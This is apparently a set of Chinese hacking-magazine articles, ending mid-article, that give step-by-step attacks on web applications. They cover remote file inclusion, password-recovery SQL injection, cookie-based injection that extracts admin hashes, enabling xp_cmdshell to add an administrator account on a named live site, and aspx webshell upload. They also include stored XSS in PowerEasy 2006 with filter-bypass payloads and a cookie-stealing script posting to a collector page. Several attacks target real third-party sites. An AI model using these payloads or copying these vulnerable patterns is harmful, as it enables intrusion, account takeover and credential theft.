上面的语句只判断了 Session 是否为空，如果不为空则进入后台管理页面。这里，只要是不为空就可以了，所以在虚拟机上运行“`<%Session("eWebEditor_User")="qq"%>`”的文件，就可以使 eWebEditor_User 的值不为空了，就可以直接进入后台了。Session 欺骗的应用甚少，除了以下这种特殊情况：虚拟机上放了两个网站 A 和 B，你拿到了 A 站的 WebShell，但是因为权限问题还是不能进入 B 站的网站目录，而 B 站里有一个 eWebEditor 的系统，你无法获得密码进入，那么你可以在 A 站的网站目录里建一个这样的 Session 欺骗 ASP 文件，并在你的本地浏览器上访问它，然后就可以直接进入 B 站 eWebEditor 的管理页面，从而获得 B 站目录的 WebShell，就不存在目录权限的问题了。

#### 文件包含漏洞

什么是包含文件漏洞？大致上讲就是服务器通过 PHP 的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可去包含一个恶意文件，而我们可以构造这个恶意文件来达到特定的目的。文件包含漏洞又可分为远程和本地两种情况，我们一一介绍。

包含漏洞往往涉及几个关键的包含函数（PHP 为例）：include()、require() 和 include_once()、require_once() 便是漏洞的关键。如果 allow_url_fopen 在 PHP 中被激活（默认），也可以用 URL（通过 HTTP 或者其他支持的封装协议）而不是本地文件来指定要被包含的文件。这也就是远程包含和本地包含的区别。为了提高效率，程序员往往把一些公用的函数写成文件作为被包含的对象，以方便调用。有时候我们可能不能确定需要包含哪个文件，比如下面的代码：

```php
if ($_GET[page]) {
    include $_GET[page];
}
```

其中的 page 变量未经过滤就被包含进去了。我们如果提交“URL/show.php?page=http://www.xxx.com/phpwebshell.txt”，phpwebshell.txt 里面是我的 WebShell 木马代码，那么我们就实现了远程包含执行 WebShell 的目的了。扩展一下，如果包含了一个不存在的本地文件的话，往往可以暴露程序的绝对路径，比如：

```text
Warning: include(img.php) [function.include]: failed to open stream: No such file or directory in ./vhost/wwwroot/index.php on line 2
```

上面的 Warning 就是找不到我们指定的 img.php 文件而暴露出了 vhost/wwwroot 这一绝对路径。此外，还有些程序可以通过包含漏洞显示出文件的源代码，平时大家可以在渗透的过程中多多体会和发掘。当然，包含漏洞在 PHP 比较多见，但并不是别的语言就能避免，到底还是个程序设计风格问题。

##### 总结

总的来说，以上的论述大多数比较经典，但也不是十分全面，毕竟脚本的范畴实在太大，单单是 HTTP 原理就能写很长。本文的主要目的在于给大家揭示一些理论性的东西，也希望大家在学技术的时候不要知其然而不知其所以然。脚本入侵的案例实在很多，本文只是对前人的研究作些提炼和加入自己脚本渗透的若干经验，不足之处还望大家提出批评。

- 适合读者：入侵爱好者
- 前置知识：无


文/图 武汉大学信息安全协会 凤凰

经过对第 6 期我介绍的网上购物商城网站管理系统进一步分析，我又发现了“取回密码”注入。对于此类漏洞，我进行了详细的分析。

进行 SQL 注入首先要满足两个条件：一是要能够提交变量，执行构造的 SQL 语句；二是能够有返回页面，通过返回页面判断注入是否成功。而“取回密码”正好能够满足这两点。其实，“取回密码”注入与后台登录使用万能密码“' or ''='”是相同的原理，只是没人会傻到在后台登录处再猜解用户名和密码，直接构造 SQL 语句进入后台显然更加方便。

为了更好地分析，我又对其他管理系统的“取回密码”进行了分析。本文以仿阿里巴巴商贸通 B2B 行业商务门户网站管理系统为例（http://www.wygk.cn/smsj/LookupPass.asp）进行说明。在用户名中输入“' or 'a'='a'”产生错误信息，如图 1 所示。

从源代码中可以发现，该系统是用 JavaScript 判断输入的是不是数字、英文或下划线。我们只要设置“Internet 选项 -> 安全 -> 自定义级别 -> 脚本 -> 活动脚本 -> 禁用”，再次输入“' or 'a'='a'”，便能注入成功，如图 2 所示。

在百度中搜索“inurl:(getpassword.asp)”，对各类“取回密码”做进一步注入测试。以某二手网站（http://www.w***com/ersou/user/getpassword.asp）为例，其登录页面如图 3 所示。在三个输入框中的任意一个输入框中输入 `' or 'a'='a'`，都能注入成功，返回页面如图 4 所示。


图1


图2


图3


图4

但是在测试过程中我也发现，输入框大于一个以上后，注入成功率比较低。主要原因是，一个输入框一般输入的是用户名。假设执行了以下语句：

```sql
select question,answer from user where username='"&trim(request.form("username"))&"'
```

执行成功后，会进入下一个页面（注入已经成功），再要求输入密保问题和答案，与数据库中的密保问题和答案做比较。而如果三个输入框在一个页面，即执行 SQL 语句与判断输入密保问题和答案与数据库中的密保问题和答案是否相同在同一个页面，则输入密保问题和答案肯定是错误的，这样将导致注入失败。不过也可以通过下面的方式绕过：自己先注册一个账号为 LSL，记住自己的密保问题和答案，在用户名输入框中输入 `'LSL' and 'a'='a`，在密保问题和答案输入先前自己设置的密保问题和答案，就可以成功注入。

网上更为常见的是两个输入框，一个输入用户名，一个输入电子邮箱，通过邮箱找回密码，同样可以进行注入，如图 5 所示。


图5

对于此类“取回密码”，关键是电子邮箱。有的会判断是否输入的是电子邮箱格式，一般都是用 JavaScript 来判断的，可以禁用脚本来绕过。其次是有时会出现三个以上输入框的现象，则可以参考三个输入框的情况。

## 经过大量分析，我得出如下结论：

- 1. 当只要输入用户名时，注入成功率极高，是典型的“取回密码”注入；
- 2. 当要求输入用户名和电子邮箱时，注入成功率也比较高，只要绕过检测电子邮箱格式即可（有的网站根本不检测电子邮箱格式），或者再自行构造；
- 3. 当输入用户名、密保问题和答案时，注入成功率也不低，可以先注册一个账号，再构造注入；
- 4. 修补该漏洞的方法和后台登录页面的过滤方式一样，只需要过滤单引号。

通过以上叙述，我们可以发现“取回密码”注入还是普遍存在于各类大小网站中的。不过目前只能手工注入，耗时比较多，希望哪位大虾能写个利用工具发到《黑防》来，大家一起交流一下。取回密码注入变化比较多，许多东西还需要读者自己去摸索，如果有什么新的发现，可以到黑防论坛与大家一起交流，我的 ID 是珞珈凤凰。

适合读者：入侵爱好者  
前置知识：ASP

## 动易2006 SP6跨站钓鱼

文/图 Cschi

随着溢出、病毒、搜索引擎等名词在网络中频繁出现，“钓鱼”被人们逐渐淡忘，但是“钓鱼式攻击”的危害是不能忘却的。用户的电子邮件、QQ、网游，甚至银行的账号密码被盗，而且一切发生得如此平静而突然……这或许就是“钓鱼”的精髓。

由于对动易（PowerEasy）的信任和建站需要，我选择了动易内容管理系统 2006 SP6 普及版（Build0702）。初步检测觉得注入不太可能存在，但在留言、短消息、信息管理等处发现存在跨站漏洞。下面就在本地进行测试。

## 本地测试

- 1）留言跨站

从首页“雁过留言”进入留言板，填写新的留言，如图 1 所示。在实际跨站时应注意“发表模式”和“有几条待审核”。如果为“审核发表”且管理员审核及时，则命中管理员的几率会非常高。

### 检测 SCRIPT 标签

按“源代码”键输入测试内容，发表后打开数据库文件 PowerEasy2006.mdb，查看 PE_GuestBook 表的 GuestContent 字段内容是否被过滤或替换。

GuestContent 字段内容为“<>”，说明“<>”没有过滤或替换直接写入了数据库。再将 GuestContent 字段内容改为“<SCRIPT>alert('XSS')</SCRIPT>”，登录后台修改留言时弹出窗口，如图 2 所示，说明语句已被执行，所以可能存在跨站漏洞。


图1


图2

我们接着检测是否对留言内容进行过滤。由于动易将代码集成到 DLL 中，我们不便分析源码，只能按正常方式发表留言后，再查看数据库中字段内容进行分析。当发表内容为“<SCRIPT>alert('XSS')</SCRIPT>”后被过滤为空，得出结论：将 <SCRIPT> 和 </SCRIPT> 及包含的数据过滤了。

输入“<SCRIPT>T”时，得出结论②：过滤留言内容中的“SCRIPT”字符，而且过滤一次，并未对过滤后的内容进行再次过滤！于是输入“<SCRIPSCRIPT>T>alert('XSS')</SCRIPSCRIPTT>”发表后被过滤为“<SCRIPT>alert('XSS')</SCRIPT>”，如图 3 所示。


图3

OK，再次登录后台修改这条留言（后台审核留言时，只有选择“修改”才可以查看留言内容，所以在写留言标题时尽可能发挥想象，诱导管理员查看留言内容，如此才能诱其上钩！不过相信多数管理员在审核留言时会查看留言内容的），弹出如图 2 的窗口！说明我们已经顺利绕过了动易的过滤，成功将脚本写入了数据库，证实动易 2006 SP6 的确存在跨站漏洞！

### 检测 IFRAME 标签

当然，我们跨站并不是让管理员看一个弹出窗口，这样不但毫无意义，而且还会“惊着”鱼儿！就好像站在岸边大笑一声“啊哈！鱼，我已经发现你了！”，然后夹着空鱼竿返回一样让人感到异样！一切要在平静中暗藏杀机！于是我们测试“<IFRAME>”标签。先在留言内容的源代码处输入“<IFRAME src=http://127.0.0.1/Article/Index.asp></IFRAME>”，发表后被过滤为“</IFRAME>”；输入“<IFRAME>”没有过滤直接存入数据库，而输入“<IFRAME></IFRAME>”则无法发表，提示“留言发送失败！请将必要的信息填写完整！”，说明留言内容被过滤为空了。所以得出结论③：过滤“<IFRAME......>”（“......”为任何字符）。这样输入“<IRAM<IFRAME>E src=http://127.0.0.1/Article/Index.asp></IFRAME>”发表后会被过滤为“<IFRAME src=http://127.0.0.1/Article/Index.asp></IFRAME>”存入数据库中！登录后台修改留言时，会发现该脚本已经执行！如图 4 所示。

将 IFRAME 的 width、height 属性设为 0，如“<IFRAM<IFRAME>E src=http://127.0.0.1/Article/Index.asp width=0 height=0></IFRAME>”，即可做到钓鱼于无声息，除非管理员查看源代码，但却已经中招。

## 放长线钓大鱼

如果继续将上面脚本中 src 属性的值改为网马地址，便可达到种马、获取 Cookie 等目的。但是如果用户安全意识比较高，比如系统打过补丁、有杀毒软件、防火墙，甚至禁用 ActiveX 控件等，那么种马无疑是不打自招，飞蛾扑火——自我毁灭！而获取 Cookie 就比较隐蔽了，进一步破解密码，再运用点社会学知识，加点运气，假如他的各种密码大同小异，那么他完了；假如是网站管理员在审核留言时中招，那么这个网站就完了。简直无法相信，动易后台竟然使用 Cookie 验证，利用 Cookie 欺骗便可进入后台，如图 5 所示。


图4


图5

进行 Cookie 欺骗时需要注意的是，因为每当用户成功登录时，PE_User 表的 LastPassword 字段内容值便发生改变；而当管理员成功登录时，PE_Admin 表的 RndPassword 和 PE_User 表的 LastPassword 两个字段内容值同时发生改变，并保持相同。登录后台除了验证用户名、密码、管理认证码外，还要检验这两个值是否与数据库中一致，这影响了 Cookie 欺骗能否成功！即当我们取得管理员的后台 Cookie 后，应在管理员再次登录前使用此 Cookie 进行欺骗；如果管理员再次登录后，先前获得的 Cookie 将失效，如图 6 所示。


图6

至此，我们有两种方法在脚本中插入“SCRIPT”或“<IFRAME>”字符（以下均使用前者），绕过动易对“<SCRIPT>”和“<IFRAME>”标签的过滤，那么就可以根据需要输入跨站脚本了，如“<SCRIPT>window.open('http://127.0.0.1','newwindow','width=100','height=200')</SCRIPT>”、“”或“”……


尽管动易对“javascript:”做了过滤，但我们知道 HTML 脚本中属性的值（不是属性名）支持 ASCII 表示形式，如“”可变形后仍会被解释执行。当然这些脚本也有缺陷，比如 IE 阻止弹出窗口时，“”类语句执行会被拦截；而“<META...>”脚本执行后会转向网马地址。这样挂马不会太长久，但可通过提高诱惑性等方式弥补。

## 鱼篓

既然鱼已经上钩，那么我们需要有“鱼篓”来存放这些“鱼儿”。我自己写了个 ASP 页面，执行后如图7、图8和图9所示，只有“修改密码”和“显示信息”两项功能，但我想这些就够用了吧，鱼篓只要能存放鱼儿足矣！


这里给出关键代码（其实也很简单，作用是保存 Cookie、hostname、URL 等信息到数据库的 Phishing_Bait 表中）如下。

```vb
Sub SaveCookie
  sql="select count(*) from Phishing_Bait where bait='"&Request("cookie")&"'"
  Rs.Open sql, Conn, 0, 1
  if Rs(0)>0 then
    Rs.Close
    Response.Write "<script>alert('已经存在相同的记录！')</script>"
    Response.Write "<script>javascript:history.go(-1)</script>"
  else
    Rs.Close
    sql="select * from Phishing_Bait"
    Rs.Open sql, Conn, 0, 3
    Rs.AddNew
    Rs("Bait")=Request("cookie")   ' cookie 信息
    Rs("HostName")=Request("hostname") ' 主机名
    Rs("URL")=Request("url")       ' 请求页面
    Rs("Date")=now()               ' 记录时间
    Rs.Update
    Rs.Close
  end if
End Sub
```

再次发表内容为“<SCRIPSCRIPTT>document.write('<iframSCRIPTe src=http://127.0.0.1/dvbbs/1/admin.asp?cookie='+escape(documenSCRIPTt.cookie)+'&url='+escape(location.href)+'&hostname='+location.hostname+' width=0 height=0></iframSCRIPTe>')</SCRIPSCRIPTT>”的留言，过滤其中的“SCRIPT”后成为正常脚本。由于 document.cookie 会被转换过滤为 document&#46cookie，所以插入“SCRIPT”绕过；cookie 中可能存在回车等特殊符号，因此要使用 escape 函数编码，如图10所示。


该留言被管理员审核通过后，当任何用户查看时，其 Cookie 都会被我们收集！但这时出现了一个问题，就是管理员在后台修改该留言时，脚本并不会执行！原来浏览留言的页面 Guest_Reply.asp 将数据库中的内容读出后直接插入页面中执行，如图11所示；而后台修改留言的页面 Admin_GuestBook.asp 则是用 `<textarea>` 引入，再写入 `<iframe>` 中的编辑器 Editor.asp 中，如图12所示。具体原因我没有深究，感兴趣的朋友可以帮我分析一下。当然，这样就只能钓到小鱼小虾，而我们的目标是管理员。


既然如此，那么我们试着提交个表单，内容如下：

```html
<FORM name=redir action=http://127.0.0.1/dvbbs/1/admin.asp method=post>
  <input type=hidden name=cookie>
  <input type=hidden name=url>
  <input type=hidden name=hostname>
</form>
<script>
redir.cookie.value=document.cookie
redir.url.value=location.href
redir.hostname.value=location.hostname
redir.submit();
</script>
```

然后登录后台修改该留言，再看看我们的“鱼篓”，有条新鱼了！结果如图13所示，说明跨站成功！由于后台的编辑器是框架调用，所以获得的来源页面不是后台页面地址 `http://127.0.0.1/admin/admin_index.asp`，但是进行 Cookie 欺骗时应使用后台页面地址。


这样我们就成功利用动易留言板的跨站漏洞获得管理员的 Cookie 了。下面我们再看看另外两处跨站，均需要用户登录进入会员中心，而且对内容未作任何过滤或替换。

## 2）信息管理跨站

在“信息管理”中“添加文章”，选择“文章内容（源代码方式）”，输入上面的表单脚本（无需插入的 SCRIPT）；添加后，当管理员在后台修改此文章时，Cookie 就无声无息地被 Post 出去了！同样，“添加软件”、“添加图片”中的简介处都存在这样的跨站漏洞。

## 3）短消息跨站

在“短消息管理”中“撰写短消息”，内容为 `<SCRIPT>document.write("<iframe src=http://127.0.0.1/dvbbs/1/admin.asp?cookie="+escape(document.cookie)+"&url="+escape(location.href)+"&hostname="+location.hostname+" width=0 height=0></iframe>")</SCRIPT>`，将其发给管理员，只要管理员查看短消息，那么他就成为我们的“篓中之鱼”了！但是如果管理员仅以普通用户登录而不进后台时，我们将不能获得其后台 Cookie！

## 动易官方网站检测

动易网站没有留言板，会员中心也未保留“信息管理”，这样我们就只能利用短消息来跨站了。首先将如上的跨站脚本发给自己，如图14所示，再查看该短消息，发现已经成功收集到自己的 Cookie，如图15所示。然后呢？发给管理员吧！


诚然，钓鱼需要相当的定力，虽然使用动易的网站为数不少，只需发个短消息或者留个言就可以完成下饵放线，您闲时去翻翻自己的鱼篓就会有不小的收获，但是可能因为自己的“修行”不够吧，始终对“钓鱼”不感兴趣，更没有到处下饵，所以也就无法做到“万径人踪灭，独钓寒江雪”！不过我们应该注意跨站的危险，因为当你美滋滋地看留言、短信、美图时，说不定你的密码已经拱手相送了，而这一切都发生得悄无声息，你根本毫无察觉，能做的只有谨慎再谨慎吧！


#### 讯时新闻系统最新版又一漏洞

适合读者：入侵爱好者  
前置知识：ASP  

文／图 iamgood

近期，讯时新闻系统被《黑防》接连爆出了多个漏洞。从中，我们可以看到这是一款安全性还有待提高的新闻系统。随着漏洞的爆出，作者也很快更新了程序，补上了漏洞。但遗憾的是，经过我的一番查找之后，在最新的 2.9 版本中，我又发现了一处问题。下面，我们就一起来看看。

在上述参数中，有 ord、lmid 是带入数据库查询的，我们可利用的也就是这两个参数，但上述代码的最后几句，使我们的希望几乎破灭。为什么是几乎？难道还有希望？这里先卖个关子。读代码总得有始有终，我们继续往下看。

## 漏洞详解

经过几次的安全检测，作者似乎也感觉到了问题的严重性，在进行变量传递时，不是使用了 isNumeric 进行判断，就是使用 chkh 函数或者 CLng 函数进行强制转换，这使我们的注入变得异常艰难。但问题还是出现在 Lmcode.asp 文件中。它是一个新闻调用的文件，参数的传入特别多，存在问题的代码如下。

```asp
if fs=1 then
sql="select * from lm where lm<>''"
if lmid<>0 then sql=sql&" and id="&lmid&""
sql=sql&" order by id "&ord&""
Set rs = Server.CreateObject("ADODB.RecordSet")
rs.Open sql,conn,1,1
While not rs.eof
  id=rs("id")
  lm=rs("lm")
%>
```

代码是按照 fs=1,2,3……来进行的，SQL 语句中，都是使用的 lmid、ord 这两个参数，基本无法利用。当我们看到 fs=4 时，眼前一亮。

```asp
lmid=trim(request("lmid"))
lmname=trim(request("lmname"))
n=trim(request("n"))
lst=trim(request("lst"))
more=trim(request("more"))
open=trim(request("open"))
bg=trim(request("bg"))
hot=trim(request("hot"))
tj=trim(request("tj"))
ord=trim(request("ord"))
fs=trim(request("fs"))
t=trim(request("t"))
...
if (not isNumeric(lmid)) then
  lmid=0
end if
```

```asp
elseif fs=4 and trim(request("lm"))<>"" then
  lmid=trim(request("lm"))
  set rs = Server.CreateObject("ADODB.RecordSet")
  rs.Open "select * from lm1 where lmid='"&lmid&"' order by id "&ord&"",conn,1,1
  while not rs.eof
    lm2=rs("id")
    lmname=rs("lm2")&rs("lm3")
  %>
  document.write("<li><a href=<%=path%>news_more.asp?lm2=<%=lm2%>&lmname=0&open=j&i=30&tj=0&hot=0 ...")
```

注意代码中的这条语句 `lmid=trim(request("lm"))`，它使前面的 isNumeric(lmid) 判断失去了效果。当我们提交一条包含 SQL 语句的 lm 时，首先经过 isNumeric(lmid) 的判断，由于不是数字，所以 lmid 被强制为 0；程序到达 fs=4 处时，lmid 又重新从 trim(request("lm")) 中获取了 lmid，这时的 lmid 为我们提交的包含 SQL 语句的 lm。这样，我们就可以轻松地注入了。

## 注入过程

由于程序禁止提交 select、delete 等字符串，所以我们需要借助 Cookie 来进行注入。具体原理在以前的《黑防》上有详细介绍，这里我就直接给出注入代码了。

- 1）首先打开有漏洞的文件 lmcode.asp，如图1所示。


图1

- 2）在浏览器中输入 `javascript:alert(document.cookie="lm="+escape('69' and 1=2 union select 1,2,3,user,pass,6,7,8 from admin where user='admin'))`，如图2所示。


图2

- 3）在浏览器中输入 `http://localhost/xx/lmcode.asp?fs=4`，其中 `http://localhost/xx/` 为新闻系统路径，结果如图3所示。


图3

其中 admin 为管理员账号，21232f297a57a5a743894a0e4a801fc3 为管理员密码。至于如何进入后台、如何拿 WebShell，以前的《黑客防线》有详细介绍，不清楚的赶紧翻出来看看吧。

## 漏洞修补

这个漏洞的修补还是比较简单的，我们在 `lmid=trim(request("lm"))` 下面加一行对 lmid 的判断即可。

```asp
if (not isNumeric(lmid)) then
    lmid=0
end if
```

##### 总结

这次我是通过一个新闻调用的程序达到注入目的的，可能有运气成分。但回想以前多起调用文件注入漏洞，很多都出在调用程序上。做安全检测时不妨先从这类文件下手，也许可以事半功倍。

适合读者：入侵爱好者  
前置知识：SQL

#### SQL Server 2005 注入与 XP_cmdshell


文/图 翼～帆

我记得上次在黑防论坛发过一次动网银行插件的多个漏洞利用。之后发现其管理功能相关文件过滤不足，外部提交限制不严，容易拿到权限。后来管理员修补后我就没有继续研究。

今日继续旧话重提，重新用这个漏洞谈 SQL2005 中 XP_cmdshell 的利用。目标站点为 Netlife，读者提到该站管理参数过滤缺失，导致可通过修改 `menu` 参数调出管理选项并进行注入。

话说上次我修补漏洞时忽略了一个点：需要管理员权限的一些参数没有过滤，结果形成新的漏洞。我们将地址中的 `menu=2` 改为 `menu=4`，调出管理选项，发现其中一栏意外不需要管理员权限。

因为 `plus_bank_do.asp` 基本未做过滤，存在注入点。我们继续提交相关请求进行利用。


```text
net user yifan lo**** /add
http://bbs.netlife.tv/plus_bank_do.asp?action=adminback&username=学习'; exec master..cmdshell 'net localgroup administrators yifan /add' --
http://bbs.netlife.tv/plus_bank_do.asp?action=adminback&username=学习'; exec master.dbo.sp_addlogin yifan,loy**** --
http://bbs.netlife.tv/plus_bank_do.asp?action=adminback&username=学习'; exec master.dbo.sp_addsrvrolemember yifan,sysadmin --
```

| 字段 | 值 |
|---|---|
| ... | ... |
| ... | ... |

图2


图3

用远程连接，发现系统用户没有建立成功。用 SQL 2000 企业管理器连接，竟然发现不支持与 SQL 2005 的连接。难不成要我去下载一个 SQL 2005 吗？不行，肯定还有其他办法。

我去百度一下“SQL Server 2005 xp_cmdshell”，发现原来在 SQL 2005 中默认禁用了 xp_cmdshell 扩展存储过程，开启方法如下。

```sql
EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXEC sp_configure 'xp_cmdshell', 1
GO
RECONFIGURE
GO
```

提交 `...p?action=adminback&username=学习`，返回了以下结果：

> Microsoft OLE DB Provider for SQL Server 错误 '80040e14'  
> 字符串“学习”后的引号不完整。  
> /plus_bank_do.asp，行 281

继续提交 `http://bbs.netlife.tv/plus_bank_do.asp?action=adminback&username=学习>%20and%201=convert(int,@@version)--`，返回：

> Microsoft OLE DB Provider for SQL Server 错误 '80040e07'  
> 在将 nvarchar 值 'Microsoft SQL Server 2005 ...' 转换成数据类型 int 时失败。  
> /plus_bank_do.asp，行 281

赶紧试一下，提交以下语句：

```text
http://bbs.netlife.tv/plus_bank_do.asp?action=adminback&username=学习';exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;--
```

不知道恢复了没有，先建用户试试，再提交以下语句：

```text
http://bbs.netlife.tv/plus_bank_do.asp?action=adminback&username=学习';exec master..xp_cmdshell 'net user yifan lo**** /add'--
http://bbs.netlife.tv/plus_bank_do.asp?action=adminback&username=学习';exec master..cmdshell 'net localgroup administrators yifan /add'--
```

我对 SQL Server 2005 没怎么研究，以为和 SQL 2000 差不多呢，于是就直接测试了一下权限，结果如图4所示。竟然是 sa？狂喜 ing！


图4

我马上用 xp_cmdshell 建立系统用户，同时加了一个 sa 上去，提交的语句分别如下。

```text
http://bbs.netlife.tv/plus_bank_do.asp?action=adminback&username=学习';exec master..xp_cmdshell ...
```

哈哈，顺利登录，结果如图5所示！至此，游戏就玩完啦！


图5

赶快联系下管理员修补漏洞。最后说明一下，很多漏洞都是因为安全设置或者是管理员的疏漏造成的。其实本文的可看点就是如何在注入点恢复 SQL 2005 的 xp_cmdshell 与手工注入。本文仅是抛砖引玉，如果有什么问题，欢迎大家到黑防论坛脚本攻防版参与相关讨论！

适合读者：入侵爱好者

前置知识：ASP

## 惊现博客难闯漏洞

文／图 iamgood


讯时，本来是一个名不见经传的新闻系统，却一再出现在人们的视野中，被一再推向风口浪尖。这次的漏洞出现在 RssNews.asp 文件中，RSS 信息聚合技术大家一定很了解，这个文件就是用来实现这一功能的。

##### 漏洞分析

我们还是先从文件代码下手，我简单地做了一些注释，大家应该可以很容易看懂。

```asp
lm=trim(Request("lm"))
' 从客户端获取lm的值
if lm="" then lm=0
' 如果lm为空，则将其值设为0
set rs = Server.CreateObject("ADODB.RecordSet")
rs.Open "select * from [lm] where id="&lm&" order by id desc",conn,1,1
' 查询数据库，这里是关键
if rs.recordcount<>0 then
  lmname=rs("lm")&rs("lm2")&rs("lm3")
else
  lmname="所有栏目"
end if
...
if (not isNumeric(lm)) then
  lm=0
end if
```

```asp
if (not isNumeric(lm)) then
  '如果lm不是数字类型，则设置lm为0
  lm=0
end if
```

从以上的代码可以清楚地看到，在进行数据库查询时，变量 lm 没有进行严格过滤（根本就没有进行过滤），虽然在代码的最后对 lm 是否是数字类型进行了检查，但这已经是“马后炮”了，一点也不影响我们利用 lm 来进行注入。

##### 漏洞利用

明白了漏洞形成的原因，那么它的利用就比较简单了。这里主要是要注意一下，我们不能直接利用 IE 的地址栏来进行注入……

- 1. 打开 `http://www.target.com/rssnews.asp`。
- 2. 在 IE 地址栏中输入：`javascript:alert(document.cookie='lm='+escape('74 and 1=2 union select 1,2,3,4,5,6,7,8 from admin'))`，如图1所示。
- 3. 再次打开 `http://www.target.com/rssnews.asp`，刷新 IE 后可在 `<title></title>` 处看到注入结果。


图2

第四步，将第二步中的 2、4 分别改为 user、pass，提交 `javascript:alert(document.cookie='lm='+escape('74 and 1=2 union select 1,user,3,pass,5,6,7,8 from admin '));`，如图3所示。


图3

第五步，再次打开 `http://www.target.com/rssnews.asp`，在 `<title></title>` 处出现了 `admin21232f297a57a5a743894a0e4a801fc35`，这就是我们注入得来的结果，如图4所示。但请大家注意的是，这里的“admin”是管理员账号，“21232f297a57a5a743894a0e4a801fc3”是管理员密码，最后一个“5”并不是管理员密码的一部分。


图4

## 写在最后

这几天，我将讯时新闻管理系统的前台文件认真地读了一遍，发现问题不少，存在两个严重的注入漏洞，分别是第八期的《黑客防线》中所讲的 lmcode.asp 中的注入漏洞，以及今天讲到的 rssnews.asp 注入漏洞。此外，我还发现了其他的一些小问题，如变量混乱等，虽然不能被利用，但也可以看出作者写程序时的粗心大意。最后，希望作者能再接再厉把系统做得更安全，效率更高一些。

---

适合读者：入侵爱好者；前置知识：ASP

## IE执行JavaScript实现表单提交及获取WebShell


文／图 Hokkien

小菜在《黑防》上写过关于破解、编程等文章，但至今为止还没有写过关于脚本的文章，看着各位脚本高手的杰作，心里痒痒的，于是也来凑一下热闹。呵呵……路过某网站，发现网站代码全部由 ASP.net 编写，引起了我的兴趣。既然来了，咱们就对它进行一下安全测试。

### 工具栏执行JavaScript实现表单

进入网站的会员登录窗口，试探一下，发现没有过滤单引号，看来代码质量应该不怎么样。在用户名处填入 `hokkien`，密码用万能钥匙 `'or'='`，点击登录，出现错误提示，如图1所示。这是很典型的本地验证。呵呵，开局不错，那咱们就来看看表单是如何进行提交的，其源代码如下。

```html
<form id="form1" action="UserValidate.aspx" method="post">
  用户名: <input name="username" type="text" />
  <input name="UrlAddress" type="hidden" value="" />
</form>
```

<input src="http://img.uiuu.cn/v1.0/style1/student/loginB.gif" name="button" type="image" onclick="checkform();"/>

```html
密&nbsp;&nbsp;码: <input name="password" type="password"/>
验证码 <input name="code" type="text" onkeydown="if(event.keyCode==13) checkform();"/>

```

从这段代码可以看出，代码是在点击图片时触发 checkform() 进行判断的，如果表单内容合乎要求就进行提交，否则舍弃。对于这种类型的验证，我首先想到的是伪造本地网页进行提交，但可惜的是，现在的代码编写都会验证提交来源页面，如果来源页面不是所要求的就会出现错误。本次也不例外，所以这种方法是行不通的。那我们要提交又应该怎么办呢？

大家想一下，既然验证是在点击图片时触发的，那么换个角度说，要是能够不点击图片进行提交，代码就不会进行合法验证的。但这种方法又该怎么实现呢？有些朋友可能会考虑抓包发送，这种方法具有普遍性，当然是可行的，但过于麻烦。本文采取工具栏执行脚本提交表单，不仅简单，而且实用。

重复刚才的动作，用户名填入 hokkien，密码用万能钥匙“or'='”，然后在 IE 工具栏输入“javascript:window.form1.submit()”，回车后发现什么了？呵呵，成功进入页面！如图2所示。

### WebShell提取

本次的 WebShell 提取纯属代码作者不认真导致，没有什么技术含量，但是既然有漏洞了，就顺便写出来。

点击“我的相册”，再点击“上传”，出现如图3所示的窗口。图3所示的窗口，点击“上传”按钮，出现如图4所示的页面，其上写得很清楚，只能上传 jpg、gif、png、bmp 格式，但真的是这样吗？我们尝试上传 aspx 格式的文件看看，天啊，居然成功啦，哎，这样弱不禁风！那就上传个 aspx 木马玩玩吧，成功获取 WebShell！如图5所示。


至此，本次入侵圆满结束，其中没有涉及到什么高深技术，完全是由于作者代码疏忽而导致的！

---

适合读者：入侵爱好者

前置知识：PHP

## FreeBSD下获取Root权限

文／图 cnbird[H.U.C]


本文将带给大家的是从一个小小的注入漏洞到最后拿到 Root 权限的完整过程。相信大家一定很熟悉 Windows 的提权了，下面就跟我一起进入稍显陌生的 Unix 下的获取 Root 权限的旅程吧。

### 起因

因为俺是个电影迷，经常去各大收费电影网站观看，因为俺包不起月，所以就想用点黑客技术搞点免费的电影看。这不，今天想看电影了，于是来到了一个叫宝宝影视的网站，整站貌似非常简陋，但是电影不少，值得看看。

随便点击一个视频链接进入，从 `http://pp.5qbaby.com/BOBA.php?id=3` 这个地址上可以看出是 PHP 编写的，而且还是用变量传递的方法，我初步估计是 PHP+MySQL 的架构。在 PHP 注入漏洞风靡三年以后，会不会还有这样的漏洞呢？本来不抱希望地在 `id=3` 后加了一个 `'`，结果出乎意料，如图1所示，传说中的 PHP 注入漏洞被我撞上了？果然让我猜中了，网站采用的是 PHP+MySQL，你问为什么？因为看到了 `mysql_fetch_array()` 变量了嘛！

继续用 `and 1=1` 和 `and 1=2` 检测方法测试，第一次返回了正确的，第二次出错了，由此可以确定存在注入漏洞了。以前我也写过不少 PHP 注入的文章，这里就不多废话了，直接用 `union select` 进行联查，依次输入 1、2、3……到 26 的时候，网址是 `http://pp.5qbaby.com/BOBA.php?id=3%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26/*`，返回了如图2所示的结果。我们可以清楚地从图中看到“2”和“24”的位置是 MySQL 中的 text 类型。如果大家不懂 MySQL 的数据类型的话，可以参考相关资料或搜索“MySQL 数据类型”。


图1


图2

### 陷入困境

手工测试了半天，表名和字段都没有猜测成功，就暂时放下了，因为我差点忘记了 PHP+MySQL 注入的重量级方法，那就是用 `load_file()` 函数来读取硬盘上的文件。

从图1中我们得到的 Web 路径为 `/usr/web/www/pp/BOBA.php`，此时就可以用 `load_file()` 函数来读取了。下面我们将用到一个将 Web 路径转化成 `load_file(char())` 函数格式的工具，这样可以节省我们自己转换的时间，也提高了我们入侵的效率。这款工具的名字为 PHPSend，直接点击软件中的转换按钮，会出现字符转换窗口，把我们得到的 Web 路径输入，点转换就出现了如图3所示的结果，这样就轻松地把 `load_file(char())` 搞定了。


图3

把得到的结果复制一下，放到上面提到的“24”的地方，本来兴致勃勃地以为会成功呢，结果出现了意想不到的结果，如图4所示。注入一时陷入了困境，可能是因为没有读取权限的原因吧，表和字段名又猜测不到，真想放弃了。


图4

### 下载源代码详细分析

